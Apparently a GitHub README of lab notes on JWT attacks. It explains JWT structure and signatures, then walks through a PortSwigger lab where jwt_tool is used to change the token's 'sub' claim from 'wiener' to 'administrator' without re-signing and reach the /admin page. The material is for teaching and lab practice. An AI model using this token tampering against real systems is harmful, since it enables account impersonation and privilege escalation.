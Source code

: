 # JWT Attacks

## References

- [JWT Attacks - PortSwigger](https://portswigger.net/web-security/jwt)
- [JWT Vulnerabilities - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
- [Pentest JWT Token (Playlist) - AulasHack](https://odysee.com/$/playlist/1b7dc3665c5cf1c05af4d0e56fd30d94031af8ba)

## Labs

- [JWT Vulnerabilities Labs - PortSwigger](https://portswigger.net/web-security/all-labs#jwt)

## Useful Tools

- [jwt.io](https://jwt.io/)
- [jwt_tool - Github](https://github.com/ticarpi/jwt_tool)
- [JSON Web Tokens - Burp Suite Extension](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6)

## Resume

###  What are JWT Tokens?

​            JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. They can  theoretically contain any kind of data, but are most commonly used to  send information ("claims") about users as part of authentication,  session handling, and access control mechanisms.        

​            Unlike with classic session tokens, all of the data that a  server needs is stored client-side within the JWT itself. This makes  JWTs a popular choice for highly distributed websites where users need  to interact seamlessly with multiple back-end servers.        

### JWT format

​            A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example:        

```
eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA
```

​            The header and payload parts of a JWT are just  base64url-encoded JSON objects. The header contains metadata about the  token itself, while the payload contains the actual "claims" about the  user. For example, you can decode the payload from the token above to  reveal the following claims:        

```json
{
  "iss": "portswigger",
  "exp": 1648037164,
  "name": "Carlos Montoya",
  "sub": "carlos",
  "role": "blog_author",
  "email": "carlos@carlos-montoya.net",
  "iat": 1516239022
}
```

​            In most cases, this data can be easily read or modified by  anyone with access to the token. Therefore, the security of any  JWT-based mechanism is heavily reliant on the cryptographic signature.        

### JWT signature

​            The server that issues the token typically generates the  signature by hashing the header and payload. In some cases, they also  encrypt the resulting hash. Either way, this process involves a secret  signing key. This mechanism provides a way for servers to verify that  none of the data within the token has been tampered with since it was  issued:        

- As the signature is directly derived from the rest  of the token, changing a single byte of the header or payload results in a mismatched signature.                
- Without knowing the server's secret signing key, it  shouldn't be possible to generate the correct signature for a given  header or payload.                

### What are JWT attacks and what are the impacts?

​            JWT attacks involve a user sending modified JWTs to the  server in order to achieve a malicious goal. Typically, this goal is to  bypass authentication and access controls by impersonating another user  who has already been authenticated.        

The impact of JWT attacks is usually severe. If an attacker is able to  create their own valid tokens with arbitrary values, they may be able to escalate their own privileges or impersonate other users, taking full  control of their accounts. 

## Vulnerabilities

### JWT authentication bypass via unverified signature

**Resources:**

- **Lab:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature
- **AulasHack Video Resolution:** https://odysee.com/@AulasHack:4/jwt-authentication-bypass-via-unverified:6?lid=1b7dc3665c5cf1c05af4d0e56fd30d94031af8ba

**Explanation:** 

​            By design, servers don't usually store any information about the JWTs that they issue. Instead, each token is an entirely  self-contained entity. This has several advantages, but also introduces a fundamental problem - the server doesn't actually know anything about  the original contents of the token, or even what the original signature  was. Therefore, if the server doesn't verify the signature properly,  there's nothing to stop an attacker from making arbitrary changes to the rest of the token.        

​            For example, consider a JWT containing the following claims:        

```json
{    
	"username": "carlos",    
	"isAdmin": false 
}
```

​            If the server identifies the session based on this `username`, modifying its value might enable an attacker to impersonate other logged-in users. Similarly, if the `isAdmin` value is used for access control, this could provide a simple vector for privilege escalation.        

​            In the first couple of labs, you'll see some examples of how these vulnerabilities might look in real-world applications.       

**Resolution:**

1. Login at **wiener** account, collect and analyse the JWT Tokent at **jwt.io** or **jwt_tool**.

```bash
└─$ python3 jwt_tool.py eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNTc4Nywic3ViIjoid2llbmVyIn0.cGCHsE9vb_hFeQQ47dlwUqBZd6jlzjoyGMKxFVGvKLh3WKG42j0JiPCDJU5be97aMdzFXcw2FfWwQdBMWbeSVBouqy4Hep5FeI9K5XfyA-tOpSYkbLZlyslRsnyOmb1VokHOrhJpHNdWSUK94fvQMuyucw832oJmi1Z7voKkjHCPpyIywHy8MCOYz0xzB7BNteZviV776Seo_OA5hJT4y2r-Iur7hkyHXhVlU4ORWx62hQb546aIdzRuQDbh1zbzvOmiVlySuwZgNfT_56Uh2i-JTo18AjadGrTD0ZIIG2aGnjAD0ZZkaK6LvDaI6lR_NyJteJJQR54ffC17KoibJg   

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                             
=====================
Decoded Token Values:                                                                                                                                                                        
=====================                                                                                                                                                                        

Token header values:                                                                                                                                                                         
[+] kid = "7a48646a-2180-4d8e-a05a-422a99d9ac71"
[+] alg = "RS256"

Token payload values:                                                                                                                                                                        
[+] iss = "portswigger"
[+] exp = 1714425787    ==> TIMESTAMP = 2024-04-29 18:23:07 (UTC)
[+] sub = "wiener"

----------------------                                                                                                                                                                       
JWT common timestamps:                                                                                                                                                                       
iat = IssuedAt                                                                                                                                                                               
exp = Expires                                                                                                                                                                                
nbf = NotBefore                                                                                                                                                                              
----------------------
```

2. Tamper "wiener" value to the "administrator" value using **jwt_tool**.

```bash
─$ python3 jwt_tool.py eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNDQzMiwic3ViIjoid2llbmVyIn0.E_zbMx5P-9T3BbNH8klnEapTlbYpRcYe88NJURL-RM96BSYdnxTZJYhwmcN6lFND_Gj8SijMtBVqWBOmyCE6Mo1Qd58qRwE_tgmBNRAQNexXE1FwjQIBiof0rS_sdoP9D8oTqvTNHy80Wn1YLaB6pdah1yQnl7gTU8mfTolD0dyxVjwUyPjm3OJ7AbPQQYSfPVj93p2VXevDBTSikLphB7_OiiE8ywJSLCAu7_qX2TK0c31RVLjGrPlw-f5Ec3MYEjIY_GAJHMXflgmhCW83Z6AjDmhiClhVEfZ8v1bPQ0m1dUegMHTV7_RwaPanrBmai7EtB_P_OjocF8jwCUu2fg -T

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi      

Original JWT: 
                                                                                                                                                                                             

====================================================================                                                                                                                         
This option allows you to tamper with the header, contents and                                                                                                                               
signature of the JWT.                                                                                                                                                                        
====================================================================                                                                                                                         

Token header values:                                                                                                                                                                         
[1] kid = "7a48646a-2180-4d8e-a05a-422a99d9ac71"
[2] alg = "RS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 0

Token payload values:                                                                                                                                                                        
[1] iss = "portswigger"
[2] exp = 1714424432    ==> TIMESTAMP = 2024-04-29 18:00:32 (UTC)
[3] sub = "wiener"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 4
Please enter new Key and hit ENTER
> sub
Please enter new value for sub and hit ENTER
> administrator
[1] iss = "portswigger"
[2] exp = 1714424432    ==> TIMESTAMP = 2024-04-29 18:00:32 (UTC)
[3] sub = "administrator"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:                                                                                                                                                                
(or 0 to Continue)                                                                                                                                                                           
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_084845f9c257880a92a7af8fae9224c1 - Tampered token:
[+] eyJraWQiOiI3YTQ4NjQ2YS0yMTgwLTRkOGUtYTA1YS00MjJhOTlkOWFjNzEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxNDQyNDQzMiwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.E_zbMx5P-9T3BbNH8klnEapTlbYpRcYe88NJURL-RM96BSYdnxTZJYhwmcN6lFND_Gj8SijMtBVqWBOmyCE6Mo1Qd58qRwE_tgmBNRAQNexXE1FwjQIBiof0rS_sdoP9D8oTqvTNHy80Wn1YLaB6pdah1yQnl7gTU8mfTolD0dyxVjwUyPjm3OJ7AbPQQYSfPVj93p2VXevDBTSikLphB7_OiiE8ywJSLCAu7_qX2TK0c31RVLjGrPlw-f5Ec3MYEjIY_GAJHMXflgmhCW83Z6AjDmhiClhVEfZ8v1bPQ0m1dUegMHTV7_RwaPanrBmai7EtB_P_OjocF8jwCUu2fg
```

3. Use Tampered JWT to access "/admin" page.

<img align="center" src="screenshots/jwt_vulns/unverified_signature/not_tampered.png">

<img align="center" src="screenshots/jwt_vulns/unverified_signature/tampered.png">